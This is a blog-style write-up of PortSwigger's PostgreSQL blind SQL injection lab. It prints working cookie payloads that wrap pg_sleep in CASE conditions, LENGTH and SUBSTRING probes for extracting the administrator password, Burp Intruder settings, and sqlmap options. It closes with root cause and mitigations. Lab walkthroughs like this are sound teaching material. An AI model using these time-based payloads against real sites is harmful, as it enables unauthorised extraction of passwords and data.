




---
# ============================================================================
#  YAZI AYARLARI (front matter) — "---" çizgilerini SİLME.
#  NOT: Önizleme konteynerinin saati UTC; date satırını günün erken bir
#       saatine koy (ör. 21:00 +0300) yoksa "gelecek tarih" sayılıp yayınlanmaz.
# ============================================================================

title: "Blind SQL injection with time delays and information retrieval"   # Yazı başlığı (tırnak içinde)
description: "PortSwigger's time-based SQL injection lab on PostgreSQL: wrapping pg_sleep in a CASE turns response time into a boolean oracle, and Burp Intruder — sorted by response time — reads the administrator password one character at a time."   # Tek cümlelik özet; kartta ve Google'da görünür

date: 2026-11-24 21:00:00 +0300                  # Yayın tarihi (ileri tarih verirsen yazı yayınlanmaz)

categories: [Web Security]                       # _data/categories.yml içindeki alanlardan biri (renk buradan gelir)
tags: [portswigger, sql-injection, blind-sqli, time-based, postgresql, burp-suite, intruder, practitioner]   # Serbest etiketler (küçük harf, boşluksuz)

platform: PortSwigger Web Security Academy       # Üst bilgide "Platform" olarak görünür
difficulty: Practitioner                         # Apprentice / Practitioner / Expert (renkli seviye rozeti)

# --- Kapak görseli ---------------------------------------------------------
# Tüm SQL injection yazıları aynı kategori kapağını paylaşır.
image:
  path: /posts/images/sql-injection-cover.webp
  alt: "Blind SQL injection with time delays and information retrieval — lab cover"

# --- Güncelleme tarihi (İSTEĞE BAĞLI) --------------------------------------
# last_modified_at: 2026-11-24 21:00:00 +0300
---

<!-- ==========================================================================
     NASIL DÜZENLERİM? (bu blok ekranda GÖRÜNMEZ, sadece sana not)

     Köşeli parantezli [...] yerleri kendi cümlelerinle (İngilizce) değiştir.

     BAŞLIK:  ## / ###    METİN: **kalın** *italik* `kod`    LİSTE: "- " / "1. "
     LİNK:    [metin](https://adres)      TUŞ: <kbd>Ctrl</kbd> + <kbd>R</kbd>
     GÖRSEL:  
              - Yol /posts/images/... ile başlar; tırnaktaki metin alt açıklama olur
              - Dosya adlarına laba özel önek ver (sqli-tdir-...), yoksa çakışır
              - DİKKAT: görsel açıklamasında "|" (pipe) KULLANMA; tablo sanılır
     KOD:     ```sql ... ```  (diller: http, bash, sql, text)
     KUTULAR: satır altına {: .note} / {: .tip} / {: .warn}
========================================================================== -->

## Overview

The [previous lab](/blog/blind-sql-injection-time-delays/) proved a point and stopped there: fire a `pg_sleep(10)`, watch the response crawl back ten seconds later, and you've shown the time channel exists. But a blunt, unconditional delay can't *read* anything — it fires every time, so it answers no questions.

This lab closes the loop. We wrap the sleep inside a `CASE` so it only triggers **when a condition is true**. Now the delay is a yes/no oracle: a slow response means "true," a fast one means "false." Ask the right sequence of questions — *is the first character of the password an `a`? a `b`?* — and the response time spells out the administrator's password one character at a time.

This instance is **PostgreSQL**, so we use a stacked query (`;SELECT …`) and `pg_sleep()` for the delay.

> Only test on systems you own or are explicitly authorised to test, such as PortSwigger Web Security Academy labs.
{: .warn}

## The lab

**Goal:** The tracking cookie is vulnerable to blind SQL injection. The query runs asynchronously with no effect on the response, and there's no error-based tell either. Use a time delay as a conditional oracle to extract the `administrator` password from the `users` table, then log in.


## Finding the injection point

As before, the vulnerable parameter is the `TrackingId` cookie on the home page request. Intercept it in Burp so we can edit the cookie before it goes out:



## Exploitation

### Step 1 — turn the delay into an oracle

Send the request to Repeater and append a stacked query that sleeps **conditionally**. The `CASE` runs `pg_sleep(10)` on the true branch and `pg_sleep(0)` on the false branch, so the statement is always valid and only the *timing* changes.

A condition that's always true (`1=1`) makes the response hang for ~10 seconds:

```sql
TrackingId=8LM1RZtyPOpsjNcU';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

 runs pg_sleep(10) — the response takes 10,156 ms")

A condition that's always false (`1=2`) comes back instantly:

```sql
TrackingId=8LM1RZtyPOpsjNcU';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

 skips the sleep — the response takes 135 ms")

There's our oracle: **slow (~10s) = true, fast (~0.1s) = false.** Every question from here is just a new condition inside the `CASE`.

{: .note}
> Burp's Inspector shows the cookie is **URL-encoded** (`%3b` for `;`, `+` for spaces). The server URL-decodes the cookie before it hits the query, so encoding the payload keeps characters like `;` from breaking the request in transit.

### Step 2 — confirm the administrator row

Point the oracle at the `administrator` user. If that row exists, the condition is true and the query sleeps:

```sql
TrackingId=8LM1RZtyPOpsjNcU';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```



### Step 3 — find the password length

Add a `LENGTH()` test to the condition and binary-search the length. Longer than 19 is true (slow):

```sql
TrackingId=8LM1RZtyPOpsjNcU';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>19) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

>19 takes 11,348 ms — true")

Longer than 20 is false (fast), so the password is exactly **20 characters**:

>20 takes 141 ms — false, so the length is 20")

### Step 4 — extract the password with Burp Intruder

To read each character, compare `SUBSTRING(password, N, 1)` against every candidate and let the sleep fire on a match. Send the request to **Intruder**, mark the guessed character as the payload, and choose a **Sniper** attack with an `a`–`z`, `0`–`9` list (36 payloads):

```sql
TrackingId=8LM1RZtyPOpsjNcU';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='§a§') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
```

 compared against the guessed character, with a 36-item a-z 0-9 list")

Here we sort the results by **Response received** (the response time) instead of status code — every request returns `200`, so the body tells us nothing. The single payload that took ~10 seconds is the correct character for that position. For position 1 it's `j`:



Repeat for each position (`SUBSTRING(password,2,1)`, `…,3,1)`, …), reading off the character whose response was slow. Assembling all 20 gives the full password:

```text
PASSWORD LENGTH: 20
PASSWORD: jhl9chp2vaprc0iewlel
```



### Step 5 — log in

Log in through the normal form as `administrator`:


The lab is solved:


## Other ways to solve it

Clicking through 20 Sniper attacks by hand is fine for learning, but the timing oracle is trivial to automate:

- **A script (`curl` + a stopwatch).** Send each guess, measure the round-trip time, and treat anything over ~5 seconds as a hit. A loop over 20 positions × 36 characters extracts the whole password unattended — this is exactly how the clean `PASSWORD:` output above was produced.
- **sqlmap.** With `--cookie="TrackingId=...*"` and `--technique=T` it detects the time-based condition and dumps the data automatically.
- **Binary search.** Compare the character with `>` (`SUBSTRING(...) > 'm'`) to halve the candidate set each step — ~6 timed requests per character instead of up to 36.

## Root cause

Same concatenated cookie as every other injection — a `'` breaks out and the rest is parsed as SQL:

```sql
-- Vulnerable: the cookie value is pasted into the query
"SELECT * FROM tracking WHERE id = '" + trackingId + "'"
```

What makes this one *blind* is that the query runs asynchronously and its result never reaches the response — no content, no error, no reflection. But the database still **executes** what we inject, and we control how long that execution takes. Time becomes the side channel, and `CASE` turns it from a blunt delay into a one-bit-per-request data leak.

## Mitigation

- **Parameterized queries** are the root fix — a bound cookie value is data, never executable SQL, so it can't call `pg_sleep` or inject a `CASE`.

```sql
-- Safer: the value is bound, not concatenated
SELECT * FROM tracking WHERE id = ?
```

- **Disable stacked queries.** Many drivers let you forbid multiple statements per call; a single-statement policy kills the `;SELECT …` technique outright.
- **Statement timeouts and monitoring.** A tracking lookup that routinely takes 10 seconds is a loud anomaly — cap execution time and alert on it.
- **Don't store passwords in plaintext** — a salted hash (bcrypt/argon2) makes a slow, one-character-at-a-time leak worthless.

## Key takeaways

- A bare delay only *proves* injection; wrapping it in `CASE WHEN (condition) THEN pg_sleep(10) ELSE pg_sleep(0) END` turns response time into a **boolean oracle**.
- When the body is identical every time, sort Intruder by **response time**, not status code or length — the ~10-second outlier is your answer.
- Extract per position with `SUBSTRING(password, N, 1)`; binary search or a script makes it fast.
- Time-based attacks are slow and noisy but nearly universal — they work even against a completely silent endpoint.
- Parameterized queries plus disabled stacked queries and statement timeouts close the hole from three directions.
